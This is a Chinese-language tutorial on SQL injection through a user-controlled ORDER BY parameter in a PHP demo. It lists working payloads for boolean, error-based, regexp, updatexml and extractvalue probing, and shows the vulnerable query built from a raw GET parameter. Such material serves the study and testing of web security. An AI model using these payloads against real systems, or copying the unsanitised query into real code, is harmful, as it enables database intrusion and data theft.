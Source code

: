 ```
 array_push($reslist, $row);
}
echo json_encode($reslist);
create database sqlidemo;
```

这里的话就是order by 后面的参数可控，我们对他进行恶意传参来达到sql注入情况。

"select * from goods order by $_GET['order']"

在早期注入大量存在的时候利用order by子句进行快速猜解列数，再配合union select语句进行回显。可以通过修改order参数为较大的整数看回显情况来判断。在不知道列名的情况下可以通过列的的序号来指代相应的列。但是经过测试这里无法做运算，如order=3-1 和order=2是不一样的
**payload:**

```
/?order=IF(1=1,name,price) 通过name字段排序
/?order=IF(1=2,name,price) 通过price字段排序
```

解释见上文。

rand函数也能达到类似的效果，可以观测到排序的结果不一样

```
/?order=rand(1=1) 
/?order=rand(1=2)
```

**利用报错**

返回多条记录

```
/?order=IF(1=1,1,(select+1+union+select+2)) 正确
/?order=IF(1=2,1,(select+1+union+select+2)) 错误


/?order=IF(1=1,1,(select+1+from+information_schema.tables)) 正常
/?order=IF(1=2,1,(select+1+from+information_schema.tables)) 错误
```

**利用regexp**

```
/?order=(select+1+regexp+if(1=1,1,0x00)) 正常
/?order=(select+1+regexp+if(1=2,1,0x00)) 错误
```

**利用updatexml**

```
/?order=updatexml(1,if(1=1,1,user()),1) 正确
/?order=updatexml(1,if(1=2,1,user()),1) 错误
```

**利用extractvalue**

```
/?order=extractvalue(1,if(1=1,1,user())) 正确
/?order=extractvalue(1,if(1=2,1,user())) 错误
```
